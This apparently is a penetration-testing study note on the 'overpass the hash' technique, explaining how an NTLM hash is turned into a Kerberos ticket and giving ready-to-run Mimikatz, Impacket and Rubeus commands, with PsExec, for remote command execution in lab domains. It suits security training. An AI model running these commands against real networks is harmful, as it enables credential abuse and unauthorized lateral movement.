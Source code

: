
With *overpass the hash*, we can "over" abuse an NTLM user hash to
gain a full Kerberos Ticket Granting Ticket (TGT). Then we can use
the TGT to obtain a Ticket Granting Service (TGS).

The idea is to turn the NTLM hash into a Kerberos ticket and avoid
the use of NTLM authentication. A simple way to do this is with
the *sekurlsa::pth* command from Mimikatz.

```bash
sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372419bf6e93364cc93075 /run:powershell
```

At this point, we have a new PowerShell session that allows us to
execute commands as jen. We can then access various services and
have Kerberos generate for us a TGT and a TGS, thus converting an
NTLM hash into a Kerberos TGT. We can then use this ticket into
various tools, such as the official PsExec application from
microsoft, which does not accept password hashes.
Mainly when pass the hash is not available

# From linux
```bash
impacket-getTGT jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
impacket-psexec jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

-----------------------

# Rubeus
```bash
.\Rubeus.exe asktgt /domain:oscp.exam /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\ms02.oscp.exam cmd
```

-----------------------
